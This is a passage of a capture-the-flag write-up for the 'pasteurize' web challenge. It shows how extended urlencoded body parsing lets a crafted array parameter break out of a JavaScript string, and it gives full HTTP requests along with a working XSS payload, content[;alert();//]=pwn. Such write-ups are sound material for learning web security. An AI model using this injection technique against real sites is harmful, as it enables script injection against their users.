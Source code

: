 ```javascript
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```

So a request like the following can be crafted.

```
POST / HTTP/1.1
Host: pasteurize.web.ctfcompetition.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: https://pasteurize.web.ctfcompetition.com
Connection: close
Referer: https://pasteurize.web.ctfcompetition.com/
Upgrade-Insecure-Requests: 1

content[foo]=aaa
```

The result produced will be the following.

```html
    <script>
        const note = ""foo":"aaa"";
        const note_id = "58866002-84e1-42c4-b7fe-82e58a527b6a";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
    </script>
```

So the JavaScript `const` can be altered, closing the string and inserting arbitrary JavaScript.

A working XSS can be obtained with the following payload.

```
POST / HTTP/1.1
Host: pasteurize.web.ctfcompetition.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: https://pasteurize.web.ctfcompetition.com
Connection: close
Referer: https://pasteurize.web.ctfcompetition.com/
Upgrade-Insecure-Requests: 1

content[;alert();//]=pwn
```
